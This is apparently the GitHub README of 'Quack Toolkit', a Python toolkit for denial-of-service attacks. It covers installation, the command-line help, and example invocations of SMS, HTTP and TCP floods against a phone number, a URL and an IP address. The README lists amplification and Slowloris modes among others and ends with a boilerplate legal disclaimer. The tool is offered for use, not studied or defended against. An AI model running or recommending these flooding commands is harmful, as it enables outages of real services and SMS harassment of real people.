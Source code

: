 # Quack Toolkit

![quack](https://i.imgur.com/dXxtAt7.jpg)

<p align="center">
  <a href="http://egozi.cf/">
    <img src="https://img.shields.io/badge/EgoziProject-Daniel%20Shten-blue.svg">
  </a>
  <a href="https://github.com/08dAnieL04/quack/releases">
    <img src="https://img.shields.io/github/v/release/08dAnieL04/quack.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/08dAnieL04/quack/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/08dAnieL04/quack.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/wiki">
      <img src="https://img.shields.io/badge/Wiki%20-Quack-lightgrey.svg">
 </a>
  <a href="https://twitter.com/08dAnieL04">
    <img src="https://img.shields.io/badge/twitter-@08dAnieL04-blue.svg">
 </a>
</p>

***

# About Quack Toolkit

```
Quack Toolkit is a set of tools to provide denial 
of service attacks. Quack Toolkit includes SMS attack 
tool, HTTP attack tool and many other attack tools.
```

***

# Getting started

## Quack installation

> cd quack

> chmod +x install.sh

> ./install.sh

## Quack uninstallation

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Quack Toolkit execution

> quack -h

```
usage: quack [-h] [--target <IP:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target <IP:port/URL/phone>
                        Target IP:port, URL or phone.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Attack tool.
  --timeout <timeout>   Timeout in secounds.
  --threads <threads>   Threads count.
  -u, --update          Update Quack Toolkit.
  --version             Show Quack Toolkit version.
```

***
  
# Quack Toolkit examples

## Example of the SMS attack
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Example of the HTTP attack

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Example of the TCP attack

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Quack Toolkit disclaimer

```
Usage of the Quack Toolkit for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, federal, and international laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
```

***

# Quack Toolkit license

By :- dAnieL Leave a Credit
